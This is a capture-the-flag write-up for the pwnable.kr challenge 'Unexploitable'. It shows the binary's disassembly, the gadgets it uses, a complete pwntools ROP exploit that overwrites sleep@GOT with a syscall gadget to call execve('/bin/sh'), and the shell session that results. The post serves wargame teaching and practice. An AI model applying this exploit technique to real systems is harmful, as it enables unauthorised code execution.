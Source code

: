 ```yaml
---
layout: post
title: pwnable.kr - Unexploitable
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
  - pwnable.kr
  - pwnable
published: true
---
```


The challenge named "Unexploitable" which is one of Hacker's Secret and has 500 points.

<!--more-->

## Overview
The main function has few code.
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400544 <+0>:	push   rbp
   0x0000000000400545 <+1>:	mov    rbp,rsp
   0x0000000000400548 <+4>:	sub    rsp,0x10
   0x000000000040054c <+8>:	mov    edi,0x3
   0x0000000000400551 <+13>:	mov    eax,0x0
   0x0000000000400556 <+18>:	call   0x400450 <sleep@plt>
   0x000000000040055b <+23>:	lea    rax,[rbp-0x10]
   0x000000000040055f <+27>:	mov    edx,0x50f
   0x0000000000400564 <+32>:	mov    rsi,rax
   0x0000000000400567 <+35>:	mov    edi,0x0
   0x000000000040056c <+40>:	mov    eax,0x0
   0x0000000000400571 <+45>:	call   0x400430 <read@plt>
   0x0000000000400576 <+50>:	leave  
   0x0000000000400577 <+51>:	ret    
End of assembler dump.
```
From above, we know that we can use two functions (sleep, read) and overflow the buffer.

## Building Payload
I need the ability that writes and reads arbitrary memory or calls arbitrary code but all we have is just overflowable read functions in main. So, I looked through main function and found syscall gadget which can be used for getting shell.
```
...
0x0000000000400560 (main+28) : syscall
...
```
And also I found some gadgets that looks useful from [ropshell](http://ropshell.com/).

csu_set:
```
0x4005e6 <__libc_csu_init+102>: mov rbx,QWORD PTR [rsp+0x8]
0x4005eb <__libc_csu_init+107>: mov rbp,QWORD PTR [rsp+0x10]
0x4005f0 <__libc_csu_init+112>: mov r12,QWORD PTR [rsp+0x18]
0x4005f5 <__libc_csu_init+117>: mov r13,QWORD PTR [rsp+0x20]
0x4005fa <__libc_csu_init+122>: mov r14,QWORD PTR [rsp+0x28]
0x4005ff <__libc_csu_init+127>: mov r15,QWORD PTR [rsp+0x30]
0x400604 <__libc_csu_init+132>: add rsp,0x38
0x400608 <__libc_csu_init+136>: ret
```
csu_call:
```
0x4005d0 <__libc_csu_init+80>: mov rdx,r15
0x4005d3 <__libc_csu_init+83>: mov rsi,r14
0x4005d6 <__libc_csu_init+86>: mov edi,r13d
0x4005d9 <__libc_csu_init+89>: call QWORD PTR [r12+rbx*8]
```
We can call arbitrary function with arbitrary arguments (max: 3) using this gadgets now. But for getting shell with syscall, we have to satisfy some condition. See [Linux System Call Table For X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/).
![]({{ site.baseurl }}/images/KRater/2020-08-18-pwnable-kr-Unexploitable/pic01.png)

The pointer of filename - rdi - will be .bss section which has `/bin/sh` string. And rax, which has to be 59, will be set by the return value of read function.

## Exploit

Full exploit code:
```python
from pwn import *

csu_set = 0x4005e6
csu_call = 0x4005d0
main_addr = 0x400544
syscall_addr = 0x400560
read_got = 0x601000
sleep_got = 0x601010

bss = 0x601000
binsh = bss + 0x28 # 0x601028
rax_dummy = bss + 0x38 # 0x601038

def chain(func, arg1, arg2, arg3):
    payload = p64(0)
    payload += p64(0)
    payload += p64(1)
    payload += p64(func)
    payload += p64(arg1)
    payload += p64(arg2)
    payload += p64(arg3)

    payload += p64(csu_call)

    return payload

r = process("/home/unexploitable/unexploitable")
p = log.progress("Getting shell...")
p.status("Doing exploit... (1/2)")

sleep (3)

payload = "A"*24 + p64(csu_set) + chain(bss, 0, binsh, 0x8) + p64(main_addr)*10
r.send(payload)

sleep (0.5)

r.send("/bin/sh\x00")

sleep (3)

payload = "B"*24 + p64(csu_set) + chain(read_got, 0, sleep_got, 8) + chain(read_got, 0, rax_dummy, 59) + chain(sleep_got, binsh, 0, 0)
r.send(payload)

p.status ("Doing exploit... (2/2)")

sleep (0.5)

r.send(p64(syscall_addr))

sleep (0.5)

r.send("C"*59)

p.success("done ;)")

r.interactive()
```

```bash
unexploitable@pwnable:blahblah$ python attack.py
[+] Starting local process '/home/unexploitable/unexploitable': pid 426386
[+] Getting shell...: done ;)
[*] Switching to interactive mode
$ id
uid=1074(unexploitable) gid=1074(unexploitable) egid=1075(unexploitable_pwn) groups=1075(unexploitable_pwn),1074(unexploitable)
```
